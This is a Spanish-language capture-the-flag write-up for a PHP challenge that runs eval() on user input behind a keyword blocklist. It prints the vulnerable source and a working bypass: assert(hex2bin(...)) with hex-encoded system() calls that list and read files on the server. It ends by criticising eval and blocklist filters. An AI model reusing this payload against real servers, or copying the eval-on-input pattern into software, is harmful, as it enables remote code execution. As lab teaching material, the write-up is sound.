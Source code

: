 # Evil oR nOt

### am i evil or not ? 

### [Link](http://172.174.108.207:8080/evil/)

### Author :Mo0Ssaa
---

Al abrir la URL, obtenemos el código fuente de la página, incluido código php.  
```php
<?php
error_reporting(0);

if (isset($_POST['submit']))
{    
  $x = strtolower($_POST['txt']);
  $reg="/system|exec|eval|passthru|file|open|php|include|require|show|get_all_headers|curl\`/im";

  if(preg_match($reg,$x))
  {
    echo "Try harder";
  } 
  else 
  {   
    eval($x);
  }
        
}
else
{
  show_source(__FILE__);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Get sad shell</title>
</head>
<body>
    <form action="" method="POST">
    <center>
    <p>Get sad shell</p>
    <input type="text" name="txt"><br />
    <input type="submit" name="submit">
    <br><br><br><br><br><br><br><br><br><br><br><br><br><br>
    </center>
    
    </form>
</body>
</html>
```
También un pequeño form:

![Página](../images/2023-02-17_194759_172.174.108.207.png)

En este caso nos interesa el código de php, se ve claramente que esto va a terminar en remote code execution, todo por el eval($x), probemos con:   
`echo "dsa2022"`;

![ejemplo 1](../images/2023-02-17_213704_172.174.108.207.png)

Vemos que aparece la salida.

Entonces lo que tenemos que hacer es llegar al eval para ejecutar código, pero sin usar ninguna de las instrucciones que estan en la expresión regular, una posible solución es usar `assert` junto con base64_decode... eso no funciona, ya que base 64 tiene en su alfabeto las mayúsculas, y la línea `$x = strtolower($_POST['txt']);` pasa todo a minúscula, se necesita una forma de encodear donde se usen solo minúsculas o no importe el case, podría ser hexadecimal, entonces probamos usamos `bin2hex` a nivel local para encodear a hexadecimal y `hex2bin` en el servidor para ejecutar remoto:

```php
echo bin2hex('system("ls")');
```
Salida: 73797374656d28226c732229

Exploit:
```php
assert(hex2bin("73797374656d28226c732229"));`
```

![Contenido del directorio actual en el servidor](../images/2023-02-17_214619_172.174.108.207.png)

Despues de una pruebas más llegamos a:

```php
echo bin2hex('system("cat ../test.txt")');
```
Salida: 73797374656d2822636174202e2e2f746573742e7478742229

```php
assert(hex2bin("73797374656d2822636174202e2e2f746573742e7478742229"));
```
![Flag](../images/2023-02-17_215103_172.174.108.207.png)

Flag: 0xL4ugh{Ev!l_!5_Alw@ys_Evill}

La vulnerabilidad está en permitir que se ejecute `eval`, una función que el propio lenguaje php desaconseja su uso, la otra es pensar que hacer una lista negra de palabras como filtro va a funcionar para todos los casos. No se me ocurre un fix, ya que la aplicación no hace nada, pero si me parece un excelente ejemplo de porque no usar listas negras.